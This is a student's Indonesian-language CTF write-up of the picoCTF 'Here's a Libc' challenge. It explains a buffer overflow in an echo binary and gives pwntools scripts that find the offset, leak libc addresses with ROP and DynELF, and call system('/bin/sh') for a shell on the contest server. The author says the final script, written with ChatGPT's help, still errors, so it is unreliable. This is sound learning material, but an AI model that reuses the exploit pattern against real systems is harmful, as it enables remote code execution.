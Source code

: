# Write Up Here a Libc

Step pertama yang saya coba adalah dengan menjalankan program dengan connect ke remote server yang disediakan. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/14bdca32-f80e-4890-bba7-7003b082a89b">
</div>
</br>


Dari foto di atas, saya mengetahui bahwa program ini merubah input text yang dimasukkan oleh user menjadi uppercase di huruf yang ganjil dan lowercase di huruf yang genap.

Lalu, saya mencoba untuk membuka program dengan Ghidra. Pada fungsi **main**, saya mengetahui bahwa dia memanggil fungsi **do_stuff()** yang disimpan dalam do while.

<div align="center">
  <img src="https://github.com/user-attachments/assets/95b39820-4de7-47ac-b831-de0a515656be">
</div>
</br>


Berikut adalah fungsi **do_stuff()**:

<div align="center">
  <img src="https://github.com/user-attachments/assets/b38a0f05-93f1-4229-a819-50d661c9cafd">
</div>
</br>


Berdasarkan decompiled code fungsi **do_stuff()**, ada kemungkinan buffer overflow pada fungsi scanf pertama yang ini adalah input dari user dengan buffer 112 dari local_88. Lalu, pada for loop, huruf yang di convert_case hanya sampai < 100.

Saat saya mencoba input string random untuk mencoba buffer overflow, terjadi segmentation fault.

<div align="center">
  <img src="Screenshot 2024-11-28 021056](https://github.com/user-attachments/assets/c01e2b64-54ad-4c78-b61f-fb9b7ab44a79">
</div>
</br>


Selanjutnya saya mencoba untuk menjalankan di gdb dengan cara yang sama dengan foto di atas. Awalnya saya bingung karena sudah lebih banyak dari buffer (112) tapi nilai di rip belum berubah.

<div align="center">
  <img src="https://github.com/user-attachments/assets/e50750d4-2653-4911-b511-e9df98805054">
</div>
</br>


Karena saya skill issue dan bingung kenapa saat saya menggunakan **gdb gef** tidak berubah juga rip nya (mungkin payload nya salah atau kurang panjang) dan tidak menemukan offset, saya mencari write up di Youtube dan meminta bantuan ChatGPT. Berdasarkan GPT dan video di Youtube, saya akhirnya menggunakan **pwntools cyclic** untuk menemukan offset dari buffer overflow yang ingin dilakukan. Berikut code nya:


```python
from pwn import *

binary = './vuln'
elf = ELF(binary)
context.binary = binary

p = process(binary)

payload = cyclic(200)
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!', payload)

p.wait()
core = p.corefile

offset = cyclic_find(core.read(core.rsp, 4))
log.info(f"Offset found: {offset}")
```

Saya menjalankan scriptnya di kali linux karena di windows ternyata error dan harus di linux. Ini offsetnya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/03b0e75b-3745-46fc-b81d-87cd27fa54e3">
</div>
</br>

**Note 1**: Saya ingin jujur ko, di step yang akan dijelaskan selanjutnya, saya mengikuti bantuan ChatGPT terutama dalam pembuatan script.

**Note 2:** Script yang saya buat dengan bantuan GPT, saat dijalankan selalu mengalami error. Tetapi, di bawah akan saya jelaskan ide dari script yang saya buat. Maaf, ko.

Selanjutnya, setelah mengetahui offset, saya mencari address dari fungsi-fungsi yang ada di libc. Tujuan akhir alamat yang ingin diambil adalah alamat fungsi **system**. Selain fungsi, string **/bin/sh** juga saya cari untuk menjalankan shell di remote server.

Selanjutnya, saya dengan bantuan ChatGPT membuat script untuk eksploitasinya. Pertama, saya membuat fungsi `leak` yang berfungsi untuk nge-leak address dari fungsi yang ada di libc dengan ROP. Fungsi ini akan mengembalikan alamat yang di-leak.


```python
def leak(address):

    log.info(f"Leaking data from address: {hex(address)}")
    
    rop = ROP(elf)
    rop.call(elf.plt['puts'], [address])  # Memanggil puts(address)
    rop.call(main_addr)  # Kembali ke main setelah memanggil puts

    payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload) 
    p.recvline()
    leaked_data = p.recvline().strip()
    
    log.info(f"Leaked data: {leaked_data}")
    return leaked_data.ljust(8, b'\x00')  
```


Secara garis besar, fungsi di atas bekerja dengan membuat ROP chain dengan berisi fungsi `puts` pada plt dan address `main` lalu payload dikirim dan server akan mengembalikan address `puts` dari libc.

Selanjutnya, saya membuat fungsi `dynelf_exploit` untuk mendapatkan alamat fungsi `system` dan string `/bin/bash`.


```python
def dynelf_exploit():

    log.info("Starting DynELF...")
    dynelf = DynELF(leak, elf=elf)  # Inisialisasi DynELF dengan fungsi leak
    system_addr = dynelf.lookup('system', 'libc')  # Cari alamat fungsi system
    bin_sh_addr = next(dynelf.iter_strings('/bin/sh'))  # Cari string '/bin/sh'
    log.success(f"system: {hex(system_addr)}, /bin/sh: {hex(bin_sh_addr)}")
    return system_addr, bin_sh_addr
```


Fungsi di atas akan menggunakan DynELF untuk memanggil fungsi leak dengan binary ELF dari binary yang didapat dari soal. Setelah mendapatkan address dari fungsi `leak`, dicari address dari `system` dan `/bin/sh`. Lalu, fungsi ini akan me-return kedua address tersebut.

Pada fungsi `exploit` ini, saya mulai eksploitasi. 


```python
def exploit():

    system_addr, bin_sh_addr = dynelf_exploit()

    log.info("Sending final payload to spawn shell...")
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])  # Memanggil system("/bin/sh")
    final_payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n", final_payload)

    # Berikan shell interaktif
    p.interactive()
```
Fungsi ini akan pertama-tama mencari address dari `system` dan `/bin/sh` menggunakan fungsi `dynelf_exploit` di atas. Selanjutnya menggunakan ROP yang berisikan `system("/bin/sh")` sebagai payload yang akan dikirimkan dan mendapatkan shell.

Tetapi, dari code ini, masih terjadi error yang saya juga bingung solve nya bagaimana. Berikut errornya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/71c5da90-7308-41b4-8fc2-77edc1309386">
</div>
</br>


Error ini terjadi ketika script sudah mendapatkan beberapa address, lalu terjadi error ini. Mohon maaf ko, saya sudah berusaha. Jika saya ada ide untuk solve ini, saya akan edit write up ini.

### FULL SCRIPT CODE

```python
from pwn import *

binary = './vuln'  # Nama binary
elf = ELF(binary)
context.binary = elf

# Alamat GOT dari puts dan fungsi main
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

# Offset buffer overflow
offset = 136

# Remote target
p = remote('mercury.picoctf.net', 49464)

def leak(address):

    log.info(f"Leaking data from address: {hex(address)}")
    
    rop = ROP(elf)
    rop.call(elf.plt['puts'], [address])  # Memanggil puts(address)
    rop.call(main_addr)  # Kembali ke main setelah memanggil puts

    payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload) 
    p.recvline()
    leaked_data = p.recvline().strip()
    
    log.info(f"Leaked data: {leaked_data}")
    return leaked_data.ljust(8, b'\x00')  

def dynelf_exploit():

    log.info("Starting DynELF...")
    dynelf = DynELF(leak, elf=elf)  # Inisialisasi DynELF dengan fungsi leak
    system_addr = dynelf.lookup('system', 'libc')  # Cari alamat fungsi system
    bin_sh_addr = next(dynelf.iter_strings('/bin/sh'))  # Cari string '/bin/sh'
    log.success(f"system: {hex(system_addr)}, /bin/sh: {hex(bin_sh_addr)}")
    return system_addr, bin_sh_addr

def exploit():
   
    system_addr, bin_sh_addr = dynelf_exploit()

    log.info("Sending final payload to spawn shell...")
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])  # Memanggil system("/bin/sh")
    final_payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n", final_payload)

    p.interactive()

if __name__ == "__main__":
    exploit()

```








